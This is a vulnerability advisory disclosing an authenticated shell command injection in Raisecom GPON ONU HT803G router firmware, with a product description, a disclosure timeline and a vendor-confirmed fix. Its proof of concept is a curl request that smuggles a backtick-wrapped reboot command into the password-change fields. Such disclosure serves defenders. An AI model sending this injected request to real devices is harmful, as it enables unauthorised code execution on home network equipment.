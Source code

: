 =====================================
Authenticated Shell Command Injection
=====================================

. contents:: Table Of Content

Overview
========

Title:- Authenticated Shell command Injection
Author: Kaustubh G. Padwad

Vendor: Raisecom technology co.,LTD
Product: GPON-ONU HT803G-07 (could be more who shares the same codebase)

Potentially vulnerable

 ISCOM HT803G-U
 ISCOM HT803G-W
 ISCOM HT803G-1GE
 ISCOM HT803G


Tested Version: : ISCOMHT803G-U_2.0.0_140521_R4.1.47.002
Severity: High--Critical

Advisory ID
============
KSA-Dev-006


About the Product:
==================

The Raisecom GPON optical network terminal (ONT) series provides a flexible mix of residential access services including high speed data, IPTV, voice and CATV services compliant with the ITU-T G.984 standard. In particular, the Raisecom ONUs are designed for Ethernet data services, voice over IP, IPTV, CATV, wireless router accessing and convenient USB2.0 home network storage connections for various application scenarios, such as residential triple-play service and business connections. The GPON ONT series offer flexible choices in terms of downlink types and numbers, such as, GE/FE auto-adapting Ethernet ports, POTS (FXS) interfaces, RF port and WiFi function compliant with IEEE 802.11b/g/n. All GPON FTTX ONUs offer advanced end-to-end management and monitoring functionality, and the GPON series can be managed under the Raisecom NView platform.


Description: 
============
An authenticated shell command injection issue has been discovered in  Raisecom ISCOM HT803G-U, HT803G-W, HT803G-1GE, and HT803G GPON products with thefirmware version ISCOMHT803G-U_2.0.0_140521_R4.1.47.002 or below, The values of the newpass and confpass parameters in /bin/WebMGR are used in a system call in the firmware. Because there is no user input validation, this leads to authenticated code execution on the device.

[Additional_information]

The value of newpass and confpass in /bin/WebMGR  parameter is parse to system call in the Firmware  and since their is no user input validation this leads to authenticated code execution on device

Vulnerability Class:
====================
Authenticated Shell Command Injection


Attack Type
===========
 Local


Impact Code execution
=====================
 true


Attack Vectors
==============
TO exploit this vulnerability one needs to parse the correct request to the device or they one needs to visit the crafted Page


How to Reproduce: (POC):
========================

curl -i -s -k  -X 'POST' \
    -H 'Origin: http://192.168.1.1' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36' -H 'Referer: http://192.168.1.1/password.asp' \
    --data-binary $'userMode=0&oldpass=netstat&newpass=`reboot`&confpass=`reboot`&submit-url=%2Fpassword.asp&save=Apply+Changes&csrf_token=current_cCSRF_ToKEN' \
    'http://192.168.1.1/boaform/formPasswordSetup'

Mitigation
==========

This issue is fixed in latest firmware as per vendor.

Disclosure: 
===========
28-NOV-2018 Discoverd the Vulnerability
28-NOV-2018 Reported to vendor 
10-Dec-2018 Recived confirmation from vendor regarding fix
05-JAN-2019 Request for the CVE-ID
04-FEB-2019 CVE Assigned

credits:
========
* Kaustubh Padwad
* Information Security Researcher
* kingkaustubh@me.com
* https://s3curityb3ast.github.io/
* https://twitter.com/s3curityb3ast
* http://breakthesec.com
* https://www.linkedin.com/in/kaustubhpadwad
